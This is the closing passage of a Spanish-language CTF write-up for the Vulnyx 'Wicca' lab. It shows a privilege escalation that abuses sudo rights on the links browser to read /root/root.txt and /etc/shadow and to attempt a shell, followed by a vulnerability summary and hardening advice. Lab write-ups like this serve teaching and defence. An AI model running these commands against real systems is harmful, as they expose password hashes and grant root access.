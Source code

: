 ### 10. Explotación de Binario Links
```bash
# Leer flag de root directamente
sudo links -dump file:///root/root.txt
```

**Alternativas de explotación**:
```bash
# Leer cualquier archivo del sistema
sudo links -dump file:///etc/shadow

# Intentar obtener shell (depende de versión)
sudo links -dump 'file:///bin/bash -c "/bin/bash"'
```

### 11. Flag de Root
- **Root Flag**: `[Redacted]`

## **Conclusión**

### Vulnerabilidades Críticas
1. **Inyección de comandos** en aplicación Node.js
2. **Falta de validación** de entrada en parámetro URL
3. **Permisos sudo peligrosos** en binario links

### Hardening Recomendado
- Validar y sanitizar todas las entradas de usuario
- Restringir permisos sudo innecesarios
- Implementar principio de mínimo privilegio
- Actualizar y parar aplicaciones regularmente

### Técnicas Aplicadas
1. **Escaneo de puertos** con Nmap
2. **Análisis de aplicaciones web**
3. **Inyección de comandos** en Node.js
4. **Reverse shell** con netcat
5. **Escalada de privilegios** mediante binario con sudo

---

**Herramientas utilizadas**:
- Nmap
- Netcat
- Node.js runtime
- Linux commands

**Referencias**:
- [Node.js Child Process Security](https://nodejs.org/api/child_process.html)
- [Linux Privilege Escalation via Sudo](https://gtfobins.github.io/gtfobins/links/)
- [Reverse Shell Techniques](https://revshells.com)

**Tags**: `#Vulnyx #Wicca #NodeJS #CommandInjection #Sudo #PrivEsc #CTF`

---